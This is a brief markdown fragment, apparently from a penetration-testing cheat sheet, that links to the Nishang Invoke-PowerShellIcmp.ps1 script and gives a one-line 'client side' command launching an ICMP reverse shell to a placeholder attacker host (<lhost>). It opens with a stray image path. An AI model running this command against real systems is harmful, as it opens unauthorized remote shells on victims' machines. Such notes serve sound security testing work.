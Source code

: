 ### source
https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellIcmp.ps1  

### start client side
```
Invoke-PowerShellIcmp -IPAddress <lhost>
```

